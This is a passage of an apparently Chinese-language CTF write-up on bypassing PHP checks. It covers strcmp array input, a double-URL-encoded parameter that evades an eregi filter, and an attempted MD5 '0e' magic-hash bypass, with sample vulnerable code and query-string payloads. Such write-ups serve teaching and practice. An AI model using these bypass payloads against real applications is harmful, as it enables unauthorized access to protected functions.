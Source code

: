 strcmp直接使用数组绕过
构造payload :?a=[]
即可绕过


### urldecode二次编码绕过
源码

```
<?php
if(eregi("hackerDJ",$_GET[id])) {
echo("not allowed!");
exit();
}
$_GET[id] = urldecode($_GET[id]);
if($_GET[id] == "hackerDJ")
{
echo "Access granted!";
echo "flag";
}
?>
```

eregi匹配字母字符串时忽略大小写

把J对应的url在此进行url加密
%4A->%254A

![Image.png](https://i.loli.net/2019/05/02/5ccadc1d5f43f.png)

这里的二次是因为第一次加密的%4a直接被浏览器给解密了。之后在进行自己的加密变成了%254A。
被php源码解密一次，浏览器解密一次就直接ok了

![Image.png](https://i.loli.net/2019/05/02/5ccadc323939e.png)

得到flag
其他的字母替换均无效
payload:?id=hackerD%254A

### MD5()函数
源码
```
<?php
error_reporting(0);
$flag = 'flag{test}';
if (isset($_GET['username']) and isset($_GET['password'])) {
if ($_GET['username'] == $_GET['password'])
print 'Your password can not be your username.';
else if (md5($_GET['username']) === md5($_GET['password']))
die('Flag: '.$flag);
else
print 'Invalid password';
}
?>
```
想到了md5缺陷的两种利用方法
0e的科学计数法
构造0e payload 尝试绕过
 ?username=s155964671a&password=0e342768416822451524974117254469
无法绕过
